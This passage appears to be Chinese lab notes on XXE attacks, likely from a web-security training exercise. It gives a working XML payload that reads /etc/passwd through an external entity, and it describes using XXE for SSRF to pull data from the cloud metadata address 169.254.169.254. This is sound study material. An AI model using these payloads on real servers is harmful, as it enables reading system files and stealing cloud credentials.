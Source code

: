 ![image-20250512144723907](./img/image-20250512144723907.png)

引入外部实体，file协议读取文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<stockCheck>
    <productId>&ext;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 利用 XXE 执行 SSRF

XXE 攻击的另一个主要影响是它们可以用来执行服务器端请求伪造（SSRF）。

这是一种潜在的严重漏洞，其中服务器端应用程序可能会被诱导向服务器可以访问的任何 URL 发起 HTTP 请求

读取`http://169.254.169.254/`的敏感数据，需要迭代读取，最终读到数据

![image-20250512145406200](./img/image-20250512145406200.png)
